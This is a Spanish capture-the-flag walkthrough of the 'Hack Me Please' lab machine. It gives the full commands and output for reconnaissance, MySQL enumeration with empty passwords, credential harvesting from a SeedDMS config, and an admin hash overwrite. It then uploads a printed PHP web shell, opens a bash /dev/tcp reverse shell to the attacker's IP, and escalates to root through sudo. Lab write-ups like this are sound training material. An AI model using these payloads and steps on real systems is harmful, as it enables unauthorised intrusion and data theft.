




# Hack Me Please

Empezamos la investigación realizando un escaneo de las máquinas accesibles desde la interfaz de red eth0



Como vemos hay una máquina virtual VMWare asociada a la ip 192.168.1.36

-------------------------------------------------------------------------------

Realizamos un escaneo para ver qué puertos hay accesibles en la máquina encontrada.

```bash
> sudo nmap -sS -p1-10000 -Pn 192.168.1.36
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-08 16:25 EST
Nmap scan report for 192.168.1.36
Host is up (0.0087s latency).
Not shown: 9998 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
3306/tcp open  mysql
MAC Address: 00:0C:29:DC:75:76 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 3.03 seconds
```

Vemos que hay 2 puertos abiertos, el http y un puerto para un servidor de mysql

-------------------------------------------------------------------------------

Realizamos un escaneo para obtener más información acerca de la máquina.

```bash
> sudo nmap -sC -A 192.168.1.36            
```

```bash
[sudo] contraseña para kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-08 16:29 EST
Nmap scan report for ubuntu.home (192.168.1.36)
Host is up (0.0029s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Welcome to the land of pwnland
|_http-server-header: Apache/2.4.41 (Ubuntu)
3306/tcp open  mysql   MySQL 8.0.25-0ubuntu0.20.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.25-0ubuntu0.20.04.1
|   Thread ID: 9
|   Capabilities flags: 65535
|   Some Capabilities: Support41Auth, IgnoreSigpipes, LongColumnFlag, Speaks41ProtocolOld, LongPassword, FoundRows, SupportsTransactions, SupportsCompression, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, InteractiveClient, SupportsLoadDataLocal, Speaks41ProtocolNew, ODBCClient, DontAllowDatabaseTableColumn, SwitchToSSLAfterHandshake, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: =i\x16pm&
| \x05Z+mj\x17\x11]s|%Q\x04
|_  Auth Plugin Name: caching_sha2_password
| ssl-cert: Subject: commonName=MySQL_Server_8.0.25_Auto_Generated_Server_Certificate
| Not valid before: 2021-07-03T00:33:15
|_Not valid after:  2031-07-01T00:33:15
|_ssl-date: TLS randomness does not represent time
MAC Address: 00:0C:29:DC:75:76 (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   2.93 ms ubuntu.home (192.168.1.36)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.82 seconds
```
-------------------------------------------------------------------------------

Vemos que en el puerto 80, hay un servicio Apache versión 2.4.41 y en el puerto 3306 el servidor MySQL es la versión 8.0.25
Parece que la versión de Linux está en el rango de la 4.15 a 5.6. Esta información igual nos puede ser útil más adelante.

-------------------------------------------------------------------------------

Podemos investigar qué servicios web corren en el puerto http de la máquina víctima utilizando whatweb.

-------------------------------------------------------------------------------

```bash
> whatweb http://192.168.1.36  
```

```bash
http://192.168.1.36 [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ],
Frame, HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[192.168.1.36], 
JQuery[1.11.2], Modernizr[2.8.3-respond-1.4.2.min], Script[text/javascript],
Title[Welcome to the land of pwnland], X-UA-Compatible[IE=edge]
```

```bash
└─$ wfuzz --hc 400,404,403,405,500 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://192.168.1.36/FUZZ    
```
```bash
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
 /usr/lib/python3/dist-packages/requests/__init__.py:102: RequestsDependencyWarning:urllib3 (1.26.12) or chardet (5.1.0)/charset_normalizer (2.0.6) doesn't match a supported version!
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.1.36/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                          
=====================================================================

000000002:   200        426 L    1168 W     23744 Ch    "#"                              
000000001:   200        426 L    1168 W     23744 Ch    "# directory-list-2.3-medium.txt"
000000003:   200        426 L    1168 W     23744 Ch    "# Copyright 2007 James Fisher"  
000000006:   200        426 L    1168 W     23744 Ch    "# Attribution-Share Alike 3.0 Li
                                                        cense. To view a copy of this"   
000000005:   200        426 L    1168 W     23744 Ch    "# This work is licensed under th
                                                        e Creative Commons"              
000000004:   200        426 L    1168 W     23744 Ch    "#"                              
000000008:   200        426 L    1168 W     23744 Ch    "# or send a letter to Creative C
                                                        ommons, 171 Second Street,"      
000000010:   200        426 L    1168 W     23744 Ch    "#"                              
000000013:   200        426 L    1168 W     23744 Ch    "#"                              
000000014:   200        426 L    1168 W     23744 Ch    "http://192.168.1.36/"           
000000039:   301        9 L      28 W       310 Ch      "img"                            
000000007:   200        426 L    1168 W     23744 Ch    "# license, visit http://creative
                                                        commons.org/licenses/by-sa/3.0/" 
000000012:   200        426 L    1168 W     23744 Ch    "# on at least 2 different hosts"
000000009:   200        426 L    1168 W     23744 Ch    "# Suite 300, San Francisco, Cali
                                                        fornia, 94105, USA."             
000000011:   200        426 L    1168 W     23744 Ch    "# Priority ordered case-sensitiv
                                                        e list, where entries were found"
000000550:   301        9 L      28 W       310 Ch      "css"                            
000000953:   301        9 L      28 W       309 Ch      "js"                             
000002771:   301        9 L      28 W       312 Ch      "fonts"                          
000045240:   200        426 L    1168 W     23744 Ch    "http://192.168.1.36/"           

Total time: 666.5059
Processed Requests: 220560
Filtered Requests: 220541
Requests/sec.: 330.9197
```

Possible users:
EMMANUEL GOLDSTEIN
Moonlight
templatemo


```bash
└─$ nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 192.168.1.36
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-11 09:14 EST
Nmap scan report for ubuntu.home (192.168.1.36)
Host is up (0.0030s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 8.0.32-0ubuntu0.20.04.2
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.32-0ubuntu0.20.04.2
|   Thread ID: 23
|   Capabilities flags: 65535
|   Some Capabilities: SupportsLoadDataLocal, InteractiveClient, SwitchToSSLAfterHandshake, Speaks41ProtocolNew, FoundRows, LongColumnFlag, ODBCClient, IgnoreSpaceBeforeParenthesis, SupportsTransactions, DontAllowDatabaseTableColumn, Speaks41ProtocolOld, Support41Auth, IgnoreSigpipes, LongPassword, SupportsCompression, ConnectWithDatabase, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: |1Sv2\x17:/2E!'N\x1E\x0B4~	?Y
|_  Auth Plugin Name: caching_sha2_password
| mysql-enum: 
|   Valid usernames: 
|     root:<empty> - Valid credentials
|     netadmin:<empty> - Valid credentials
|     guest:<empty> - Valid credentials
|     user:<empty> - Valid credentials
|     web:<empty> - Valid credentials
|     sysadmin:<empty> - Valid credentials
|     administrator:<empty> - Valid credentials
|     webadmin:<empty> - Valid credentials
|     admin:<empty> - Valid credentials
|     test:<empty> - Valid credentials
|_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0
FLUS
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.60 seconds
```
 
```bash
> sudo nmap -sS -Pn -n 192.168.1.36 -p30000-40000
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-11 13:10 EST
Nmap scan report for 192.168.1.36
Host is up (0.012s latency).
Not shown: 10000 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.93%I=7%D=2/11%Time=63E7DA28%P=x86_64-pc-linux-gnu%r(N
SF:ULL,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GenericLines,9,"\x05\0\0\0\x0b\
SF:x08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(HTTPOp
....
```

Miramos:
http://192.168.1.36/js/main.js


Comentario que dice que hay que comprobar que la versión usada es la misma que 
```
[var $slide = $('.slide');              
// give active class to first link        
//make sure this js file is same as installed app on our server endpoint: /seeddms51x/seeddms-5.1.22/        
$($('nav a')[0]).addClass('active');
```

Intentamos acceder a 
http://192.168.1.36/seeddms51x/seeddms-5.1.22/


Descargamos el framework seeddms51x y vemos como está estructurado.
esto nos permite saber que existe un fichero en /conf/settings.xml
que puede contener credenciales de algún tipo.

Como podemos ver, hemos encontrado unas credenciales para MySQL.




```bash
> mysql -h 192.168.1.36 -u seeddms -p
```

```sql
MySQL> show databases;
```

```sql
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| seeddms            |
| sys                |
+--------------------+
```
```sql
MySQL [seeddms]> select * from users;
```
```sql
+-------------+---------------------+--------------------+-----------------+
| Employee_id | Employee_first_name | Employee_last_name | Employee_passwd |
+-------------+---------------------+--------------------+-----------------+
|           1 | saket               | saurav             | Saket@#$1337    |
+-------------+---------------------+--------------------+-----------------+
1 row in set (0,031 sec)
```
```sql
MySQL [seeddms]> show columns from tblUsers;
```
```sql
+---------------+--------------+------+-----+---------+----------------+
| Field         | Type         | Null | Key | Default | Extra          |
+---------------+--------------+------+-----+---------+----------------+
| id            | int          | NO   | PRI | NULL    | auto_increment |
| login         | varchar(50)  | YES  | UNI | NULL    |                |
| pwd           | varchar(50)  | YES  |     | NULL    |                |
| fullName      | varchar(100) | YES  |     | NULL    |                |
| email         | varchar(70)  | YES  |     | NULL    |                |
| language      | varchar(32)  | NO   |     | NULL    |                |
| theme         | varchar(32)  | NO   |     | NULL    |                |
| comment       | text         | NO   |     | NULL    |                |
| role          | smallint     | NO   |     | 0       |                |
| hidden        | smallint     | NO   |     | 0       |                |
| pwdExpiration | datetime     | YES  |     | NULL    |                |
| loginfailures | tinyint      | NO   |     | 0       |                |
| disabled      | smallint     | NO   |     | 0       |                |
| quota         | bigint       | YES  |     | NULL    |                |
| homefolder    | int          | YES  | MUL | NULL    |                |
+---------------+--------------+------+-----+---------+----------------+
```

```sql
MySQL [seeddms]> SELECT id, login, pwd FROM tblUsers;
```

```sql
+----+-------+----------------------------------+
| id | login | pwd                              |
+----+-------+----------------------------------+
|  1 | admin | f9ef2c539bad8a6d2f3432b6d49ab51a |
|  2 | guest | NULL                             |
+----+-------+----------------------------------+
```

```sql
MySQL [mysql]> select user, authentication_string from user;
```
+------------------+------------------------------------------------------------------------+
| user             | authentication_string                                                  |
+------------------+------------------------------------------------------------------------+
-3B<;yrVDMbVKA4tdgskyi7u9wDeaAycRfWaDu6XxE5/ppf7 |
| seeddms          | $A$005$d 5=
                                B}x{F -_E-bpSftyzk6e7NqJ6DWIL2AzzxKxSahPoRqZvG9Bej/c7 |
| debian-sys-maint | $A$005$woD"j`%!04QZ{m3KTkvDc7crnFw9G0Fyx3MjeWXsjoD0EMEhynazfkX.1 |
| mysql.infoschema | $A$005$THISISACOMBINATIONOFINVALIDSALTANDPASSWORDTHATMUSTNEVERBRBEUSED |
| mysql.session    | $A$005$THISISACOMBINATIONOFINVALIDSALTANDPASSWORDTHATMUSTNEVERBRBEUSED |
| mysql.sys        | $A$005$THISISACOMBINATIONOFINVALIDSALTANDPASSWORDTHATMUSTNEVERBRBEUSED |
| root             |                                                                        |
| seeddms          | $A$005$A@]@yCjderspsKBE
                                            Wb77PQUG8HUGhs0wW9nN5HFf1c5yK41et/8Uz9a4kq4 |
| seedms           | $A$005$':zLXtaKw49H`6
                                          `PImejdBmtks1FgLOk2Xs9AuoeYwxdSRsy9NBNHTBJt1 |
+------------------+------------------------------------------------------------------------+
9 rows in set (0,002 sec)
```

```sql
MySQL [mysql]> select host, user, authentication_string from user where user="seeddms" and host="localhost";
```

```sql
+-----------+---------+------------------------------------------------------------------------+
| host      | user    | authentication_string                                                  |
+-----------+---------+------------------------------------------------------------------------+
| localhost | seeddms | $A$005$A@]@yCjderspsKBE
                                               Wb77PQUG8HUGhs0wW9nN5HFf1c5yK41et/8Uz9a4kq4 |
+-----------+---------+------------------------------------------------------------------------+
```

```sql
MySQL [mysql]> select host, user, authentication_string from user where user="seeddms" and host="127.0.0.1";
```

```sql
+-----------+---------+------------------------------------------------------------------------+
| host      | user    | authentication_string                                                  |
| 127.0.0.1 | seeddms | $A$005$d 5=
+-----------+---------+------------------------------------------------------------------------+
                                   B}x{F -_E-bpSftyzk6e7NqJ6DWIL2AzzxKxSahPoRqZvG9Bej/c7 |
+-----------+---------+------------------------------------------------------------------------+
```

```bash
└─$ echo -n "123456" | md5sum 
e10adc3949ba59abbe56e057f20f883e  -
```

Nótese el parámetro -n para que no añada el newline al final del echo, pues afectaría al hash generado.

```sql
> MySQL [seeddms]> update tblUsers set pwd="e10adc3949ba59abbe56e057f20f883e" where id=1;
```

```
probarmos ahora la web:
user admin
password 123456
```
Ahora podemos ver la web y como funciona. Parece que es una web en la que se pueden subir documentos para posteriormente ser descargados.


```bash
> searchsploit seeddms                 
```

```bash
---------------------------------------------------------------- ---------------------------------
 Exploit Title                                                  |  Path
---------------------------------------------------------------- ---------------------------------
Seeddms 5.1.10 - Remote Command Execution (RCE) (Authenticated) | php/webapps/50062.py
SeedDMS 5.1.18 - Persistent Cross-Site Scripting                | php/webapps/48324.txt
SeedDMS < 5.1.11 - 'out.GroupMgr.php' Cross-Site Scripting      | php/webapps/47024.txt
SeedDMS < 5.1.11 - 'out.UsrMgr.php' Cross-Site Scripting        | php/webapps/47023.txt
SeedDMS versions < 5.1.11 - Remote Command Execution            | php/webapps/47022.txt
---------------------------------------------------------------- ----------------------------
```

```bash
> $ searchsploit -x php/webapps/50062.txt
```

```bash
Step 2: Choose the document as a simple php backdoor file or any backdoor/webshell could be used.

PHP Backdoor Code:
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Step 3: Now after uploading the file check the document id corresponding to the document.
Step 4: Now go to example.com/data/1048576/"document_id"/1.php?cmd=cat+/etc/passwd to get the command response in browser.

Note: Here "data" and "1048576" are default folders where the uploaded files are getting saved.
(END)
```

```bash
> cat conf/settings.xml
```

```xml
...
 101   │     -->
 102   │     <server
 103   │       rootDir = ""
 104   │       httpRoot = "/seeddms51x/"           <----
 105   │       contentDir = ""
 106   │       stagingDir = ""
 107   │       luceneDir = ""
 108   │       logFileEnable = "true"
 109   │       logFileRotation = "d"
 110   │       enableLargeFileUpload = "false"
 111   │       partitionSize = "2000000"
 112   │       dropFolderDir = ""
 113   │       cacheDir = ""
 114   │       backupDir = ""
 115   │     />
 116   │     <!--
...
 283   │        - cmdTimeout: timeout in sec. for external commands
 284   │     -->
 285   │     <server
 286   │       coreDir = ""
 287   │       luceneClassDir = ""
 288   │       contentOffsetDir = "1048576"          <---
 289   │       maxDirID = "0"
 290   │       updateNotifyTime = "86400"
 291   │       extraPath = ""
 292   │       maxExecutionTime = "30"
 293   │       cmdTimeout = "1"
 294   │     />
 295   │     <!--
...
```

```sql
MySQL [seeddms]> select id, document, orgFilename, version, dir from tblDocumentContent;

```

```sql
+----+----------+-------------+---------+-----+
| id | document | orgFilename | version | dir |
+----+----------+-------------+---------+-----+
|  4 |        4 | test.txt    |       1 | 4/  |
|  5 |        5 | test.txt    |       1 | 5/  |
|  6 |        4 | lfi.php     |       2 | 4/  |
|  7 |        4 | lfi.txt     |       3 | 4/  |
|  8 |        4 | rce.php     |       4 | 4/  |
+----+----------+-------------+---------+-----+
5 rows in set (0,006 sec)
```

http://192.168.1.36/seeddms51x/data/1048576/4/4.php?cmd=id

Esta sería la línea a utilizar para entablar la reverse shell.
```bash
bash -c "bash -i >& /dev/tcp/192.168.1.80/443 0>&1"
```
Hemos de recordar que hay que "urlencodear" los > y los & (! Muy IMPORTANTE!)

```bash
bash -c "bash -i %3e%26 /dev/tcp/192.168.1.80/443 0%3e%261"
```

http://192.168.1.36/seeddms51x/data/1048576/4/4.php?cmd=bash -c "bash -i %3e%26 /dev/tcp/192.168.1.80/443 0%3e%261"



Hacemos el tratamiento de la tty típico y estamos en el directorio 4 donde están las versiones.

```bash
www-data@ubuntu:/var/www/html/seeddms51x/data/1048576/4$ whoami
www-data
```

```bash
www-data@ubuntu:/var/www/html/seeddms51x/data/1048576/4$ 
```

```bash
www-data@ubuntu:/etc$ cat /etc/passwd 
```

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:115::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:109:116:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:110:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:111:117:RealtimeKit,,,:/proc:/usr/sbin/nologin
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
cups-pk-helper:x:113:120:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
avahi:x:115:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:117:123::/var/lib/saned:/usr/sbin/nologin
nm-openvpn:x:118:124:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
hplip:x:119:7:HPLIP system user,,,:/run/hplip:/bin/false
whoopsie:x:120:125::/nonexistent:/bin/false
colord:x:121:126:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:122:127::/var/lib/geoclue:/usr/sbin/nologin
pulse:x:123:128:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gnome-initial-setup:x:124:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:125:130:Gnome Display Manager:/var/lib/gdm3:/bin/false
saket:x:1000:1000:Ubuntu_CTF,,,:/home/saket:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:126:133:MySQL Server,,,:/nonexistent:/bin/false
```

```bash
> su saket
password: Saket@#$1337
```
```bash
saket@ubuntu:/etc$
```
 
Después de investigar varias cosas. miramos qué comandos puede ejecutar el usuario saket con privilegios elevados.

```bash
saket@ubuntu:~$ sudo -l
[sudo] password for saket: Saket@#$1337
```

```bash 
Matching Defaults entries for saket on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User saket may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

Miramos la última linea y flipamos

```bash
saket@ubuntu:~$ sudo su
root@ubuntu:/home/saket# 
```

```bash
root@ubuntu:/home/saket# whoami
root
```

```bash
root@ubuntu:/home/saket# cd 
root@ubuntu:~# ls -la
```

```bash
total 3424
drwx------ 18 root root    4096 Jul  3  2021 .
drwxrwxrwx 20 root root    4096 Jul  2  2021 ..
-rw-------  1 root root 3398976 Jul  3  2021 app.apk
-rw-------  1 root root    7870 Jul  3  2021 .bash_history
-rw-r--r--  1 root root    3106 Dec  5  2019 .bashrc
drwx------ 16 root root    4096 Jul  3  2021 .cache
drwx------ 13 root root    4096 Jul  3  2021 .config
drwx------  3 root root    4096 Jul  2  2021 .dbus
drwxr-xr-x  2 root root    4096 Jul  3  2021 Desktop
drwxr-xr-x  2 root root    4096 Jul  3  2021 Documents
drwxr-xr-x  2 root root    4096 Jul  3  2021 Downloads
drwx------  3 root root    4096 Jul  3  2021 .gnupg
drwxr-xr-x  3 root root    4096 Jul  2  2021 .local
drwx------  5 root root    4096 Jul  3  2021 .mozilla
drwxr-xr-x  2 root root    4096 Jul  3  2021 Music
-rw-------  1 root root    4309 Jul  3  2021 .mysql_history
drwxr-xr-x  2 root root    4096 Jul  3  2021 Pictures
-rw-r--r--  1 root root     161 Dec  5  2019 .profile
drwxr-xr-x  2 root root    4096 Jul  3  2021 Public
drwxr-xr-x  3 root root    4096 Jul  2  2021 snap
-rw-------  1 root root      16 Jul  2  2021 .sqlite_history
drwx------  2 root root    4096 Jul  3  2021 .ssh
drwxr-xr-x  2 root root    4096 Jul  3  2021 Templates
drwxr-xr-x  2 root root    4096 Jul  3  2021 Videos
-rw-r--r--  1 root root     180 Jul  3  2021 .wget-hsts
```

Como podemos ver la máquina no tiene flag, así que aquí concluye la escalada de privilegios.


